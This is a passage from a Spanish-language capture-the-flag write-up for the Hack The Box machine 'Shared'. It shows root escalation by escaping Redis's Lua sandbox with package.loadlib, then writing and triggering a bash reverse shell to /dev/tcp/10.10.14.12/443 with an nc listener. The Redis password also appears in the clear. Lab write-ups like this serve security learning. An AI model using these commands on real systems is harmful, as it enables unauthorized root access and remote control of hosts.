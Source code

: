 ![](/assets/images/htb-writeup-shared/web25.png)

```bash
dan_smith@shared:~$ redis-cli
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("whoami", "r"); local res = f:read("*a"); f:close(); return res' 0
"root\n"
127.0.0.1:6379> 
```

Podemos poner la **bash** **SUID** o enviarnos una reverse shell 

Pero bueno nos vamos a enviar la shell directamente como root

```bash
dan_smith@shared:/dev/shm$ nano reverse
dan_smith@shared:/dev/shm$ cat reverse 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.12/443 0>&1
dan_smith@shared:/dev/shm$ 
```

Ahora nos ponemos en escucha

```bash
❯ nc -nlvp 443
listening on [any] 443 ...

```

Ahora lo ejecutamos

```bash
dan_smith@shared:/dev/shm$ redis-cli 
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash /dev/shm/reverse", "r"); local res = f:read("*a"); f:close(); return res' 0
```
